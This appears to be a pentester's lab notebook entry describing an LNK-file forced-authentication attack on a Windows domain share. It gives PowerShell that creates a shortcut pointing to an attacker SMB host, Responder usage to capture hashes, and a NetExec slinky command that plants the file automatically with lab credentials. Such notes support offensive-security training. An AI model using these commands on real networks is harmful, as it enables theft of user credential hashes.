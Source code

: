 - On compromised machine as admin in powershell:
```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk") 
$lnk.TargetPath = "\\10.8.0.2\@test.png" 
$lnk.WindowStyle = 1 
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3" 
$lnk.Description = "Test" 
$lnk.HotKey = "Ctrl+Alt+T" 
$lnk.Save()
```
- We want to make the **==shortcut file as high as possible alphabetically so we add `@` or '~'==** in file name begin.
- ![[Pasted image 20250330061734.png]]
- Rename:
- ![[Pasted image 20250330061801.png]]
- Start responder:
	- `sudo responder -I tun0 -dwv`
- Copy file to ` "\\\HYDRA-DC\\hackme\\"`
- Refresh `hackme` folder:
	- ![[Pasted image 20250330062042.png]]

# Automated attack using CME/NetExec:

- `netexec smb 10.0.1.10 -d marvel.local -u pparker -p Password1 -M slinky -o NAME=test SERVER=10.8.0.2`
	- `SERVER` -> Attacker IP
	- `-M` -> slinky module for automation of LNK attack
	- `NAME` -> name of the LNK file
- ![[Pasted image 20250330062503.png]]


[Addition Resources](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf)
